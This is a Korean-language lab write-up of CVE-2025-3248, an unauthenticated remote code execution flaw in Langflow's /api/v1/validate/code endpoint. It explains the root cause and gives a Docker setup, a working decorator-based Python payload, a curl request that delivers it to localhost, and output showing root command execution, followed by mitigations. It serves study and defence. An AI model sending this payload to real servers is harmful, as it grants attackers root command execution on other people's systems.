


# Langflow `validate/code` API 미인증 원격 코드 실행 (CVE-2025-3248)
> [조현서 (@Hyeo0n)](https://github.com/Hyeo0n)

<br>
Langflow는 AI 워크플로우를 시각적으로 구축하는 인기 있는 오픈소스 프레임워크이다. Langflow v1.3.0 미만 모든 버전의 `/api/v1/validate/code` API 엔드포인트에서 발생하는 원격 코드 실행(RCE) 취약점이다. 공격자가 조작된 HTTP 요청을 통해 Python 코드를 아무런 인증 없이 서버에서 직접 실행하는 결함이 존재한다. 이는 원격의 미인증 공격자가 임의의 시스템 명령을 실행할 수 있게 하고, 호스트 서버 전체의 제어권 탈취로도 이어질 수 있다.

### 취약 조건
1. **버전 조건**: Langflow 공식 릴리즈 **v1.3.0 미만**의 버전
2. **네트워크 노출**: 외부 공격자가 대상 서버의 백엔드 API 엔드포인트(`/api/v1/validate/code`)로 HTTP POST 요청을 직접 전송 가능한 상태
3. **인증 부재**: 인그레스(Ingress)나 리버스 프록시 단에서 해당 엔드포인트에 대한 별도의 접근 제어(Access Control)나 IP 제한이 설정되어 있지 않은 상태

### 핵심 문제점
- 인증 메커니즘 누락: 해당 API 엔드포엔트에 접근 제어 및 사용자 세선 유효 검사 존재하지 않음.
- 실행 파이프라인: 내부적으로 사용자 입력값을 `ast.parse()` → `compile()` → `exec()` 흐름으로 직접 처리함.
- Python 파싱 메커니즘 악용: Python 특성상 함수가 호출되지 않더라도, 데코레이터(Decorator)와 기본 인자가 파싱(`ast.parse`) 시점에 평가됨. 공격자는 이를 악용해 함수 정의만으로 코드를 실행시킬 수 있음.

### 참고자료(References):
* https://github.com/langflow-ai/langflow/releases/tag/1.3.0
* https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/
* https://www.zscaler.com/blogs/security-research/cve-2025-3248-rce-vulnerability-langflow
* https://www.keysight.com/blogs/en/tech/nwvs/2025/06/29/cve-2025-3248-langflow-unauthenticated-code-validation
<br><br><br>


## 환경 설정 (Environment Setup)
```
docker compose up -d
```

해당 명령어를 실행하여 Langflow 1.2.0 을 실행한다.
서버가 시작되면 `http://localhost:7860`에서 Langflow 웹 인터페이스에 접속할 수 있다. 
해당 인터페이스에서 `administrator:vulhub`로 로그인할 수 있다. (PoC 실행과 무관)
<br><br><br>


## 취약점 재현 (Vulnerability Reproduction)
**PoC 코드**
```
@exec("raise Exception(__import__('subprocess').check_output(['id']))")
def foo():
  pass
```
해당 PoC 코드에서 데코레이터 @exec(...) 는 함수 정의 시점에 평가되므로, 함수가 호출되지 않아도 안의 코드가 실행된다. 해당 코드에서는 id 명령을 실행하여 서버의 사용자 정보(uid, gid)를 출력하게끔 동작한다.
이를 아래의 curl 명령으로 서버에 전송한다.
<br><br>

```
curl -s -X POST -H "Content-Type: application/json" http://localhost:7860/api/v1/validate/code -d '{"code": "@exec(\"raise Exception(__import__('"'"'subprocess'"'"').check_output(['"'"'id'"'"']))\")\ndef foo():\n pass"}'
```
curl 명령으로 `/api/v1/validate/code` 엔드포인트에 JSON 본문을 POST 요청으로 전송하고, 서버가 인증 없이 받은 Python 코드를 실행한다. 
<br><br>



curl 명령을 실행하면 다음과 같은 JSON 응답이 반환된다.
```
{
  "imports": {
    "errors": []
  },
  "function": {
    "errors": [
      "b'uid=0(root) gid=0(root) groups=0(root)\n'"
    ]
  }
}
```
`function.errors` 필드에 id 명령의 실행 결과인 `uid=0(root) gid=0(root) groups=0(root)`는 서버가 root 권한으로 명령을 실행했음을 의미한다. 따라서 미인증 공격자가 서버에서 임의의 명령을 root 권한으로 실행할 수 있음이 확인된다.
<br><br><br>


## 대응 방안
- **Langflow를 1.3.0 이상으로 업그레이드**
- **네트워크 접근 제한**: 방화벽을 통해 `/api/v1/validate/code` 엔드포인트에 대한 공개 접근 차단하고, 신뢰할 수 있는 내부 네트워크만 접근 가능하도록 제한.
- **접근 제어 강화**: Langflow를 방화벽이나 프록시 뒤에 배치하여 인증된 사용자만 접근하게 함.
- **로그 모니터링**: 과거 로그에서 `/api/v1/validate/code` 엔드포인트로의 의심스러운 POST 요청 검사하여, 비정상적인 Python 코드가 포함된 요청이 없는지 확인.
